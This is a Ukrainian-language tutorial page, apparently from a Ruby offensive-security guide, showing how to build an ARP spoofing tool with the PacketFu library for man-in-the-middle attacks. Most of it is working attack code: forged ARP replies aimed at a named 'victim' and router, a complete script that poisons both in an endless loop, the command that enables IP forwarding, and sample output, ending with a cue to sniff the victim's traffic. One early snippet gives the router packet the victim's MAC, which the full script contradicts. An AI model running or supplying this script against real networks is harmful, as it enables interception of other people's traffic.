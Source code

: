 # Підміна ARP
Як ви знаєте, атака з підміною ARP(ARP Spoofing attack) це ядро атаки під назвою "Людина в середині"(MitM attacks). В цій частині ми дізнаємося як написати простий але ефективний підмінювач ARP та використаємо його пізніше для спуфінг атаки.

#### Сценарій
В цьому сценарії у нас є три машини, розташовані як показано нижче:
```
             |Нападник|
                 |
                 ٧
|Жертва| -----------------> |Роутер| ---> Інтернет
```
Список IP та MAC адрес кожної з них у наступній таблиці[^1]

| Хост/Інфо |   IP Адреса   |    MAC Адреса     |
|-----------|:-------------:|:-----------------:|
| Нападник  | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| Жертва    | 192.168.0.21  | 00:0C:29:38:1D:61 |
| Роутер    | 192.168.0.1   | 00:50:7F:E6:96:20 |

Щоб отримати інформацію про наш інтерфейс(інтерфейс нападника) використаємо наступний код:

```ruby
info = PacketFu::Utils.whoami?(:iface => "wlan0")
```
І він поверне щось типу:
```
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"}
```
Отже ви можете використовувати цю інформацію і брати її з хешів`info[:iface]`, `info[:ip_saddr]`, `info[:eth_saddr]`, і таке інше..


**Побудова ARP пакету для жертви**
```ruby
# Створемо заголовки
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # наша MAC адреса
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # MAC адреса жертви
# Та додамо пакети
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # наша MAC адреса
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # MAC адреса жертви
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # IP роутера
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # IP жертви
arp_packet_victim.arp_opcode = 2                        # код  arp 2 це ARP відповідь
```

**Побудова пакету для роутера**
```ruby
# Створемо заголовки
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # наша MAC адреса
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # MAC адреса роутера
# Та додамо ARP пакет
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # наша MAC адреса
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # MAC адреса роутера
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # IP жертви
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # IP роутера
arp_packet_router.arp_opcode = 2                        # код  arp 2 це ARP відповідь

```

**Робимо спуфінг атаку на ARP**
```ruby
# Відправляємо наш пакет у мережу
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```
Джерело[^2]

Беремо все це разом і виконуємо від імені користувача `root`

```ruby
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end

```

> Note: Don't forget to enable packet forwarding on your system to allow victim to browse internet.

> `echo "1" > /proc/sys/net/ipv4/ip_forward `

Returns, time to wiresharking ;)
```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
```



<br><br><br>
---
[^1]: Create table the easy way - [Table Generator](http://www.tablesgenerator.com/markdown_tables)

[^2]: Source: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
